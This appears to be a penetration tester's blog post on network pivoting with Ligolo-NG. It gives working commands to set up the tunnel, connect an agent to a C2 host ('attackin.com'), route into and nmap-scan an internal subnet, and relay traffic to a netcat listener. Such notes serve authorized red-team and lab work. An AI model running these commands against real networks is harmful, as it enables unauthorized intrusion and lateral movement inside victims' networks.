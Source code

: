 ```yaml
---
layout: '../../layouts/Post.astro'
title: 'Pivoting Methodology'
image: '/images/pivot1'
# image: 'https://22863376c5.clvaw-cdnwnd.com/2c46b638ae8400165ec727f2390cd862/200000109-4dacc4dacf/0_0k6y3ytGb8Fjtrnr.webp?ph=22863376c5'
publishedAt: "2023-10-3"
category: 'Hybrid'
---
```


## Overview


### Tools

#### Ligolo-NG
Requires Go 1.20

##### Linux Setup
##### Set-Up Tun Interface for Proxy
```bash
user=mellonaut
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_linux_amd64.tar.gz && tar -xzvf ligolo-ng_agent_0.4.4_linux_amd64.tar.gz && rm ligolo-ng_agent_0.4.4_linux_amd64.tar.gz
sudo ip tuntap add user $user mode tun ligolo
sudo ip link set ligolo up
```

##### Linux Start Proxy
```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```

##### TLS - No LetsEncrypt
```bash
cert=\home\mellonaut\cert.pem
key=\home\mellonaut\cert.pem

./proxy -certfile $cert -keyfile $key
./proxy -selfcert # must use -ignore-cert on the agent side
```

##### Windows Setup
##### Requires Win-Tun .dll from Wireguard project
```powershell
Invoke-WebRequest -Uri https://www.wintun.net/builds/wintun-0.14.1.zip -OutFile wintun-0.14.1.zip; Expand-Archive -Path wintun-0.14.1.zip -DestinationPath .\; Remove-Item wintun-0.14.1.zip
Invoke-WebRequest -Uri https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_windows_amd64.zip -OutFile ligolo.zip; Expand-Archive -Path ligolo.zip -DestinationPath .\; Remove-Item ligolo.zip
Copy-Item -Path .\wintun\bin\amd64\*.dll -Destination .\ligolo\
```

##### Agent Usage
```bash
c2=https://attackin.com
./agent -connect $c2:11601
```

##### Agent SOCKS5 
```bash
c2=https://attackin.com
./agent -connect --socks $c2:11601
# --socks-user --socks-pass
```

##### Interacting -  Linux - Add Route to Ligolo
```bash
ligolo-ng >> session
1
ifconfig # Agents IPv4 address/ Subnet shown 192.168.0.30/24
sudo ip route add 192.168.0.0/24 dev ligolo # tun device is ligolo
```

##### Interacting -  Windows - Add Route to Ligolo
```powershell
netsh int ipv4 show interfaces
route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

##### Access Network
From proxy server 
```bash
start # starts the tunnel
nmap 192.168.0.0/24 -v -sV -n --unprivileged # or -PE, use the tunnel, reduce false-positives if we're not admin
```

##### Add Listener to Agent, redirect all traffic from agent 1234 to C2 server 4321
Start a listener on the agent to redirect to the C2 server
```bash
# From Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```

Start a netcat listener to recieve the traffic
```bash
# From Proxy
nc -lvp 4321
```

     

